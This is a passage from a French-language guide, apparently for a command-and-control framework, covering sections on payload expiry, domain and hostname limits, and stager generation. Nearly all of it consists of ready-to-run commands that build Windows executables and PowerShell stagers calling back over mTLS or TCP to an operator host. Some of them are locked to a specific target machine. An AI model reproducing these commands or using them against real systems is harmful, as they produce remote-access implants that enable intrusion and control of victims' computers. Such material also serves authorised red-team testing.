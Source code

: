 ### 3.3 Payload avec date d'expiration
```bash
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --limit-datetime "2024-12-31 23:59:59" \
    --save /tmp/payload_with_expiry.exe
```

### 3.4 Payload avec domaine limite
```bash
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --limit-domainjoined \
    --limit-hostname "TARGET-PC" \
    --save /tmp/targeted_payload.exe
```

---

## 4. Stagers et Dropper

### 4.1 Génération de Stagers
```bash
# Stager Windows
generate stager \
    --lhost 192.168.1.100 \
    --lport 443 \
    --protocol tcp \
    --format exe \
    --arch amd64 \
    --save /tmp/stager.exe

# Stager PowerShell
generate stager \
    --lhost 192.168.1.100 \
    --lport 443 \
    --protocol tcp \
    --format powershell \
    --arch amd64 \
    --save /tmp/stager.ps1
```

### 4.2 Stager avec profil personnalisé
```bash
# Créer un profil d'abord
profiles new --mtls 192.168.1.100:443 --name CustomProfile

# Utiliser le profil pour générer le stager
generate stager \
    --profile CustomProfile \
    --format exe \
    --arch amd64 \
    --save /tmp/custom_stager.exe
```

---